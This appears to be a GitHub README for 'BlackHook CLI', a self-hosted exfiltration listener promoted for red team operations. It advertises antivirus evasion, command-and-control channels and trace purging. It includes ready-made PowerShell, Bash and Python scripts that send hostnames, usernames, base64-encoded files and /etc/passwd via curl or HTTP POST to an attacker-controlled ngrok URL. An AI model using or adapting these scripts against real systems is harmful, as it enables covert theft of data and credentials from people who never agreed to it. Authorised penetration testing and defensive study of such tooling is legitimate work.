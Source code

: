 # BlackHook CLI

A covert command-line tool for establishing secure data exfiltration channels and webhook endpoints during penetration testing and red team operations.

![Security](https://img.shields.io/badge/security-research-red.svg)
![Python](https://img.shields.io/badge/python-3.7+-blue.svg)
![Stealth](https://img.shields.io/badge/stealth-high-darkgreen.svg)

## 🎯 Overview

BlackHook-CLI is similar to webhook.site but in the form of cli and can be run locally to carry out a variety of data exfiltration attacks

# Images Side by Side

| UI Screenshot | Requests View |
|:-------------:|:-------------:|
| <img src="images/ui.svg" alt="UI Screenshot" width="600"/> | <img src="images/requests.svg" alt="Requests View" width="600"/> |


## 🔥 Key Advantages

- 🥷 **AV Evasion**: Bypasses common antivirus detection through legitimate HTTP traffic patterns
- 🌐 **Dynamic Endpoints**: Creates ephemeral ngrok tunnels that don't appear in security feeds
- 🔒 **No External Dependencies**: Self-hosted solution avoiding third-party webhook services
- 📊 **Real-time Monitoring**: Live TUI for immediate data visibility during operations
- 🧹 **Clean Footprint**: Minimal system traces and easy cleanup
- 🎭 **Traffic Mimicry**: Requests appear as legitimate web traffic
- 💾 **Flexible Exfiltration**: Supports multiple data formats and encoding schemes

## 🚀 Tactical Use Cases

- **Data Exfiltration**: Extract sensitive files and credentials via HTTP POST
- **Command & Control**: Establish covert communication channels
- **Payload Delivery Confirmation**: Verify successful payload execution
- **Persistence Validation**: Test beacon callbacks and heartbeat mechanisms


## 📦 Installation

```bash
# Clone the repository
git clone https://github.com/yourusername/blackhook-cli.git
cd blackhook-cli

# Install dependencies
pip install -r requirements.txt

# Make executable
chmod +x blackhook_cli.py
```

## ⚡ Quick Deployment

### 1. Establish Covert Channel
```bash
python blackhook_cli.py start --port 8080
```
- Automatically generates ephemeral ngrok URL
- Launches real-time monitoring interface
- Ready for data reception immediately

### 2. Configure Target Payload
Use the generated URL in your payload scripts:
```bash
# Example exfiltration endpoint
https://abc123.ngrok.io/exfil
```

### 3. Monitor Incoming Data
Watch data arrive in real-time through the interactive TUI with full request details, headers, and payload content.

## 🎯 Operational Examples

### Data Exfiltration Scripts

**PowerShell (Windows)**
```powershell
# Exfiltrate system information
$data = @{
    hostname = $env:COMPUTERNAME
    user = $env:USERNAME
    domain = $env:USERDOMAIN
    processes = Get-Process | Select-Object Name | ConvertTo-Json
}
Invoke-RestMethod -Uri "https://your-ngrok-url.ngrok.io/sysinfo" -Method POST -Body ($data | ConvertTo-Json) -ContentType "application/json"
```

**Bash (Linux)**
```bash
#!/bin/bash
# Covert file exfiltration
curl -X POST https://your-ngrok-url.ngrok.io/files \
  -H "Content-Type: application/json" \
  -d "{\"filename\":\"$(basename $1)\",\"content\":\"$(base64 -w 0 $1)\"}"
```

**Python (Cross-platform)**
```python
import requests
import base64
import os

def exfiltrate_file(filepath, endpoint):
    with open(filepath, 'rb') as f:
        content = base64.b64encode(f.read()).decode()
    
    data = {
        'filename': os.path.basename(filepath),
        'size': os.path.getsize(filepath),
        'content': content
    }
    
    requests.post(f"{endpoint}/upload", json=data)

# Usage
exfiltrate_file("/etc/passwd", "https://your-ngrok-url.ngrok.io")
```

## 🔧 Operational Commands

| Command | Purpose | OPSEC Level |
|---------|---------|-------------|
| `start` | Deploy covert endpoint | 🟢 High |
| `status` | Check operational status | 🟢 High |
| `requests` | Review captured intelligence | 🟢 High |
| `show <id>` | Analyze specific payload | 🟢 High |
| `export` | Extract operation data | 🟡 Medium |
| `kill` | Terminate and cleanup | 🟢 High |
| `clear` | Purge operation traces | 🟢 High |

## 🎮 TUI Operational Controls

| Key | Function | Description |
|-----|----------|-------------|
| `↑↓` | Navigate | Browse captured payloads |
| `Enter` | Inspect | Deep dive into payload details |
| `c` | Clean | Emergency data wipe |
| `e` | Extract | Quick data export |
| `k` | Kill | Terminate operations |
| `q` | Quit | Exit interface |

## 🤝 Contributing

Security researchers and penetration testers are welcome to contribute:

---
#### Inspired from Webhook.site
